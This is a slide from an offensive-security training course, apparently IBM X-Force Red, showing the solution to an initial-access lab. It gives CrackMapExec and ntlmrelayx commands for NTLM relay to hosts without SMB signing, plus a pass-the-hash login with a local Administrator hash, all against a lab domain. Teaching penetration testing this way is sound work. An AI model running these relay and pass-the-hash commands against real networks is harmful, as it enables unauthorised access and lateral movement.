

# Initial Access > Lab 2 - Solution
You can generate a list of hosts without SMB signing if you don’t know where your user is an admin
cme smb scope.txt --gen-relay-list relay.txt
You can then use your relay.txt file as a target file to attempt to relay to multiple hosts instead:
ntlmrelayx.py -tf relay.txt -smb2support
Turns out, fox.fmradio.local and eagle-ca01.fmradio.local both share the same local Administrator password, who would’ve thought!
cme smb scope.txt -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe --local-auth

IBM Security X-Force Red / © 2023 IBM Corporation
31